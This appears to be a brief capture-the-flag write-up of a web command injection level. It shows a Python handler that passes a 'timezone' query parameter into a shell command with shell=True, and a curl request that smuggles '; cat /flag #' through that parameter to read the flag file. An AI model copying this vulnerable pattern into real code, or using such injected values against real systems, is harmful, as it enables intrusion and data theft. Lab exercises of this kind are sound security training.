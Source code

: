 # Web Command Injection Vulnerability

## Level 2 - Command injection

Code for the level

```python
def level2():
    timezone = request.args.get("timezone", "UTC")
    return subprocess.check_output(f"TZ={timezone} date", shell=True, encoding="latin")
```

I want to inject `TZ=; cat /flag # date` into `TZ={timezone} date`.

```sh
curl "http://challenge.localhost:80?timezone=;%20cat%20/flag%20%23"
```

